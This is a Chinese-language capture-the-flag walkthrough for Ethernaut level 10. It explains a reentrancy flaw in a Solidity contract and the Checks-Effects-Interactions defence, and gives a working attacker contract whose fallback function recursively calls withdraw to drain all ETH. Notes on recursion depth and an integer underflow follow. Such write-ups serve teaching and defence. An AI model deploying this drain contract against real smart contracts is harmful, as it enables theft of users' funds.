

# level10 Re-entrancy

## 1. 问题

要求你将合约中所有的eth转出到自己的地址。合约源码如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

## 2. 解法

本题是要求你利用合约中的`重入攻击`漏洞来实现偷eth的效果。具体的漏洞在下面几行：

```solidity
if (balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value: _amount}("");
    if (result) {
        _amount;
    }
    balances[msg.sender] -= _amount;
}
```

当第一次调用 `withdraw` 函数时，if调节如果判断成功，会先调用 `msg.sender.call` 给目标地址转入eth，此时可能触发目标地址的 `fallback` 或 `receive` 函数，函数内可能会继续调用 `withdraw` 函数，形成循环。

通过循环第二次进入时，因为第一次还没有走到 `balances[msg.sender] -= _amount;` 余额扣减，所以二次调用时条件仍然满足，产生重入漏洞。

> [!CAUTION]
> * **CEI** 原则：防止重入攻击，的核心原则是采用检查-影响-交互模式（Checks-Effects-Interactions）
>    1. 先检查是否满足触发条件
>    2. 再更新（余额）等数据状态
>    3. 最后和外部交互

具体操作流程如下：

1. 编写 `HackReentrancy` 合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.12;

interface IReentrance {
    
    function donate(address _to) external payable;

    function balanceOf(address _who) external view returns (uint256 balance);
    
    function withdraw(uint256 _amount) external;
}

contract HackReentrancy {
    
    IReentrance private reentrance;

    constructor(address _reentrance) {
        reentrance = IReentrance(_reentrance);
    }
    
    function hack() external payable {
        // 1. 先充值
        reentrance.donate{value: msg.value}(address(this));
        // 2. 立刻提款，触发fallback
        reentrance.withdraw(msg.value);
    }
    
    fallback() external payable {
        // 1. 判断余额
        uint256 allLeft = address(reentrance).balance;
        uint256 usLeft = reentrance.balanceOf(address(this));
        if(allLeft > usLeft) {
            // 1.a 如果余额超过自己注资的钱，则按照最大量递归
            reentrance.withdraw(usLeft);
        } else if (allLeft > 0) {
            // 1.b 如果余额已经低于自己注资的钱，则可以最后一次全部取走
            reentrance.withdraw(allLeft);
        } 
        // 1.c 如果已经全部被取出来了，则停止递归调用，完成任务
    }
}
```

> [!NOTE]
> 这里我们使用了 `fallback` 实现，也可以通过 `receive` 实现

2. 在remix中编译，部署到sepolia上，[交易地址](https://sepolia.etherscan.io/tx/0x1d27b1e3efc72356ce6b9182d4edb9aad42d17d15e9406c8a41917df3992fbcc)

3. 我们通过查询区块链浏览器，发现这个合约一共有 `0.001 ether = 10^6 gwei`。

4. 调用 `hack` 合约，输入传输的 `msg.value` 为 `4 * 10^5 gwei`, [交易地址](https://sepolia.etherscan.io/tx/0x20c57b5f9719ba0ae04f6d0a42bdad786a817d0fb756313e401e777e68184570):

> [!TIP]
> 基本上这个量级或这个更大的都没问题。
> 具体关于 `msg.value` 值的分析见后续章节




5. 上面的交易记录截图已经能看出来，我们的递归已经生效，且最后一次把剩余的余额尾巴也收走了。

6. 点击 `submit instance`， 提交通过！

## 3. 注意：不要设置过小的 `msg.value`

> [!IMPORTANT]
> 1. solidity限制了函数递归调用不能超过1024层，同时深度还受gas limit等的限制，所以我们需要精确设计递归层数，让他不要因为递归太多导致交易执行失败，结果导致什么都没捞到，反而白白损失手续费
> 2. solidity的这个特性也能推测出：即使遭遇了重入攻击，攻击者为了安全起见，大概率也不会写一个合约，通过一次调用偷走所有的资金。更大概率会通过蚂蚁搬家的方式一点点偷走资金。所以对于Dapp开发者来说，准备好应急预案，留下方便操作的应急接口，也能在出现问题时挽回一点损失。

如果我们设置一个比较小的 `msg.value` 来调用 `hack` 函数([部署地址](https://sepolia.etherscan.io/tx/0xf67e33f785470c0a0a3988f5265148cb53247c16a42094ec275b9bfd3daf4e18))，现象如下：

1. （可选）为了递归过深导致失败，我们先输入 `1.1*10^3 Gwei`, 点击 `hack`, [交易链接](https://sepolia.etherscan.io/tx/0xeeebe2eba293d3d96f06b25c3b242080d806ddbb884cc188e23049bd9852729b)


执行后，能发现交易gas使用了 70w+，且可以看到internal transaction很多，说明递归次数很多:


2. 此时，如果我们继续操作，再调整成合适的手续费，比如 `5 * 10^5 Gwei` 再此调用 `hack`, [交易链接](https://sepolia.etherscan.io/tx/0xd9bb919227b25c95dae8e15a701b91b36fff7409eb7a2785d2287e51ec27fa4f), 我们会发现交易直接失败了：


3. 如果我们进一步查询，会发现 `HackEntrancy` 合约在原始 `Reentrance` 合约中的余额已经变成一个非常大的值了：


4. 这个是因为原始的 `Reentrance` 合约是 `0.6.x` 版本编译的，他没有做数字的溢出判断，导致第一次调用时，会在 `balances[msg.sender] -= _amount;` 时将我们的余额减成负数（对应的就是一个正很大的整数）。后续我们二次调用 `donate` 时，内部的加法又做了越界校验，导致校验没通过:

```solidity
if (balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value: _amount}("");
    if (result) {
        _amount;
    }
    balances[msg.sender] -= _amount;
}
```

> [!NOTE]
> 到这里我们可以发现，如果原始合约中 `balances[msg.sender] -= _amount;` 也使用了 `SafeMath` 库做越界校验，也能避免重入攻击

| [⬅️ level9 King](../level9_king/README.md) | [level11  ➡️]() |
|:------------------------------|--------------------------:|